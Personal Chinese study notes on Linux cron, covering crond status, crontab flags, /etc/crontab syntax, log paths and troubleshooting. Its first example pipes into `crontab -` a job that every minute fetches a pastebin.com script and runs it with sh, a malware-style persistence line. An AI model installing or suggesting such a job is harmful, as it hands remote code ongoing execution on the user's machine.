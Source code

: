 # Linux cron

参考：

https://www.cnblogs.com/peida/archive/2013/01/08/2850483.html

例子参考：

https://www.runoob.com/w3cnote/linux-crontab-tasks.html

> 如果运行的是脚本使用`/bin/bash`来执行
>
> 可以使用`crontab -`将stdout转为crontask
>
> ```
> echo "* * * * * (crul -fsSL https://pastebin.com/raw/e8XzcU2Q || wget -q -O- https://pastebin.com/raw/e8XzcU2Q) | sh" | crontab -
> ```
>
> crond不会将crontask输出的内容展示在控制台上，但是会在日志中出现

## 概述

crond是一个定时执行任务的守护线程，crond将会通过mail发送到用户的系统邮箱`/var/spool/mail/username`中

查看crond状态

```
[root@cyberpelican etc]# systemctl status crond
● crond.service - Command Scheduler
   Loaded: loaded (/usr/lib/systemd/system/crond.service; enabled; vendor preset: enabled)
   Active: active (running) since Wed 2020-11-25 10:29:01 CST; 5 days ago
 Main PID: 1630 (crond)
    Tasks: 1
   CGroup: /system.slice/crond.service
           └─1630 /usr/sbin/crond -n

Nov 25 10:29:01 cyberpelican systemd[1]: Started Command Scheduler.
Nov 25 10:29:01 cyberpelican crond[1630]: (CRON) INFO (RANDOM_DELAY will be scaled with factor 81% if used.)
Nov 25 10:29:03 cyberpelican crond[1630]: (CRON) INFO (running with inotify support)
Nov 30 18:29:01 cyberpelican crond[1630]: (*system*) RELOAD (/etc/crontab)
Nov 30 18:29:01 cyberpelican crond[1630]: (echo) ERROR (getpwnam() failed)
Nov 30 18:30:01 cyberpelican crond[1630]: (echo) ERROR (getpwnam() failed)
Nov 30 18:31:01 cyberpelican crond[1630]: (echo) ERROR (getpwnam() failed)
Nov 30 18:32:01 cyberpelican crond[1630]: (echo) ERROR (getpwnam() failed)
Nov 30 18:33:01 cyberpelican crond[1630]: (echo) ERROR (getpwnam() failed)
Nov 30 18:34:01 cyberpelican crond[1630]: (echo) ERROR (getpwnam() failed)
```

## 目录

==我们还可以把脚本放在/etc/cron.hourly、/etc/cron.daily、/etc/cron.weekly、/etc/cron.monthly目录中，让它每小时/天/星期、月执行一次。==

- `/etc/crontab`

  系统调度的配置文件

- `/etc/cron.d`

  存储需要执行的crontab文件或脚本

- ==`/var/spool/cron`==

  通过`crontab -e`命令创建的crontab文件目录

- `/etc/cron.deny`

  该文件中所列用户不允许使用crontab命令

- `/etc/cron.allow`

  该文件中所列用户允许使用crontab命令

## 参数

> 通常使用`crontab -u username -e `或是`crontab -u username filename`来为指定用户添加命令，crond会检验文件中语法

crontab是一个操作cron daemon(crond) 的软件，每个用户都可以自己的crontab(定时任务)

- `-u user`

  指定任务生效的用户，默认当前用户。如果使用了`su`，必须使用`-u`参数指定用户

- `-l list`

  显示当前用户的crontab

- `-r remove`

  删除当前用户的crontab

- `-e edit`

  修改或添加当前用户的crontab

- `-s security`

  添加SELinux context，使crontab生效

## /etc/crontab

> 常用于调用/etc/cron.hourly、/etc/cron.daily、/etc/cron.weekly、/etc/cron.monthly
>
> ==run-parts (`/usr/bin/run-parts`)用于调用指定文件下的所有脚本==
>
> root表示以root的身份去执行
>
> ==分 时 日 月 周==

```
[root@localhost ~]# cat /etc/crontab 

SHELL=/bin/bash

PATH=/sbin:/bin:/usr/sbin:/usr/bin

MAILTO=""HOME=/

# run-parts

51 * * * * root run-parts /etc/cron.hourly

24 7 * * * root run-parts /etc/cron.daily

22 4 * * 0 root run-parts /etc/cron.weekly

42 4 1 * * root run-parts /etc/cron.monthly
```

### 扩展

- `*`

  代表所有可能的值，如month字段为星号，则表示在满足其它字段的制约条件后每月都执行该命令操作。

- `,`

  可以用逗号隔开的值指定一个列表范围，例如，“1,2,5,7,8,9”

- `-`

  可以用整数之间的中杠表示一个整数范围，例如“2-6”表示“2,3,4,5,6”

- `/`

  可以用正斜线指定时间的间隔频率，例如`* */2 * * *`”表示每两小时执行一次。

## 日志

centos7之前的系统可以通过如下文件查看cron日志

```
/var/log/corn
#会将对应的cron执行结果发送给用户
/var/spool/mail/user
```

ubuntu可以查看

```
/var/log/syslog
```

## troubelshoot

1. No MTA installed, discarding output

   ```
   sudo apt-get install postfix
   ```

   然后可以在`/var/spool/mail`中看到信息

2. 正常脚本可以执行，但是crontab 不能执，可能是环境变量的问题。直接指定使用bash

   ```
   From root@win2k  Mon Apr 19 21:59:01 2021
   Return-Path: <root@win2k>
   X-Original-To: root
   Delivered-To: root@win2k
   Received: by win2k (Postfix, from userid 0)
           id 918FF1215D6; Mon, 19 Apr 2021 21:59:01 +0800 (CST)
   From: root@win2k (Cron Daemon)
   To: root@win2k
   Subject: Cron <root@win2k> ( cd /opt/t/ >& /dev/null || exit 1 ) && ( find . -regextype posix-egrep -regex "\./[[:digit:]]{4}-[[:digit:]]{2}-[[:digit:]]{2}-[[:digit:]]{2}.log.*" -mtime -1 | sudo xargs rm -f {}  || exit 1 )
   MIME-Version: 1.0
   Content-Type: text/plain; charset=UTF-8
   Content-Transfer-Encoding: 8bit
   X-Cron-Env: <SHELL=/bin/sh>
   X-Cron-Env: <HOME=/root>
   X-Cron-Env: <PATH=/usr/bin:/bin>
   X-Cron-Env: <LOGNAME=root>
   Message-Id: <20210419135901.918FF1215D6@win2k>
   Date: Mon, 19 Apr 2021 21:59:01 +0800 (CST)
   
   /bin/sh: 1: Syntax error: Bad fd number
   ```

   例如这里使用dash无法识别`/dev/null`，如果使用`bash -c`需要注意引号

   ```
   * * * * * /bin/bash -c  '{ cd /app/easyv-nico/log/error/ >& /dev/null || exit 1  &&  find . -regextype posix-egrep -regex "\./[[:digit:]]{4}-[[:digit:]]{2}-[[:digit:]]{2}-[[:digit:]]{2}.log.*" -mtime -1 | sudo xargs rm -f {}  || exit 1; }'
   ```

   也可通过hashbag解决

3. 无法正常运作也有可能是权限的问题，使用`sudo`

4. `（）`==subshell不共享路径==

   ```
   root in /opt/t λ /bin/bash -c '(cd /etc || exit 1) && (cat ./resolv.conf || exit 1)'
   cat: ./resolv.conf: No such file or directory
   ```

   